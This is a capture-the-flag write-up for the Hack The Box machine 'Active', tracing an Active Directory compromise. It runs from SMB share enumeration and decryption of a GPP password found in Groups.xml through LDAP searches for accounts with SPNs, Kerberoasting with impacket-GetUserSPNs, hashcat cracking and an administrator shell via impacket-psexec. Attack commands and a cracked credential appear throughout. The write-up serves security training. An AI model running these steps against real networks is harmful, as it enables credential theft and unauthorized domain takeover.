









# Active

<details>
<details>
  <summary><strong>Summary</strong></summary>
Scan the machine's open ports and find an smb server. Locate the smbshares using smbmap and access the available share using smbclient. Find a Groups.xml file and discover a gpp-encrypted password on it. Crack it and get access to some of the other SMB shares and get the first flag. Look for other users in the Active Directory instance using impacket-GetADUsers. Check if any of those users were created using an SPN using ldap search. Since the admin user is created using an SPN, kerberoast him using impacket-GetUserSPNs. Crack the resulting hash and use psexec to get a shell with the new password.
</details>
<br>

<summary2><strong>What I Learned</strong></summary2>

<body>

1. Learned that AD machines in HTB are quite different from the course material found in OFFSEC.
2. There are many ways to enumerate SMB shares and a lot of tools to do it.
3. Enumeration with SMB shares is actually way easier than the manual way I used to do it
4. If a user is kerberoastable, use impacket GetUserSPNs

</body>
</details>

### Scan the machine for open ports



### Scan the open ports



Find smbclient on port 445  
List the available shares


Use smbclient to access the Replication share
`smbclient \\\\<IP>\\<SHARE>`  
Find a Groups.xml file that contains a username and password


Decrypt the password found in the groups.xml file

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98g…
SCV_TGS : GPPstillStandingStrong2k18
```

Use SMBMap to check for the shares svc_tgs has access to  
`smbmap -u svc_tgs -p 'GPPstillStandingStrong2k18' -H 10.129.231.79`


Use the decrypted password to get access to the USERS smb share  
`smbclient -U 'svc_tgs%<PASSWORD>' \\\\10.129.231.79\\USERS`


Get all the users in the AD Instance


The administrator user is configured using a Service Principal Name on this Active Directory Instance

- `-x` -> simple authentication instead of SSL | `-H` server | `-D` user | `-w` password | `-b "dc=active,dc=htb"` -> sets the search base to the quoted string, which is the root of the AD domain | `-s sub` -> subtree search
- The subtree filter -> `(&(objectCategory=person)(objectClass=user)` -> targets users accounts
- `(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))` -> Exclude disabled accounts
- `(serviceprincipalname=*/*))` -> searches for users that have any Service Principal Name
- `serviceprincipalname` -> requests only the servicePrincipalName attribute
- `grep -B 1 servicePrincipalName` -> Shows the service principal name along with the line before it (distinguished name)



Get the SPN using impacket's GetUserSPNs tool

```
# Check
impacket-GetUserSPNs active.htb/svc_tgs -dc-ip 10.129.231.79
# Get the SPN
impacket-GetUserSPNs active.htb/svc_tgs -dc-ip 10.129.231.79 --request
```



### Take the hash and crack it locally


```
hashcat -m 13100 spn.hash /rockyou.txt
```

Get access using psexec

```
impacket-psexec administrator@10.129.231.79
```
